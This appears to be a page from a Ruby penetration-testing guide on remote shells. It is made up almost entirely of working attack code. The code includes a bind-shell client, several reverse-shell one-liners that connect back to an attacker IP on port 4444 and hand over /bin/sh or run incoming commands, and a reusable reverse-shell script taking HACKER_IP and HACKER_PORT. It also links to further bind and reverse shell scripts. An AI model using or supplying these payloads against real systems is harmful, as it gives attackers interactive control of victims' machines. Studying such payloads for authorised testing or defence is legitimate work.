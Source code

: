 # Remote Shell

Remote shell means s forward or reverse connection to the target system command-line\(shell\).

**Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell

from terminal

```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop{gets.chomp!;$_=="exit"?(s.close;exit):(s.puts$_);puts s.recv 0xFFFF}'
```

since `192.168.0.15` is the victim IP

## Reverse shell

Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run

```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't want to rely on `/bin/sh`

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't want to rely on `cmd.exe`

```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

## Bind and Reverse shell

This is an awesome implementation for a standalone [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by \[Hood3dRob1n\]\[3\] on GitHub . The bind shell requires authentication while reverse is not.

\[3\]: [https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)

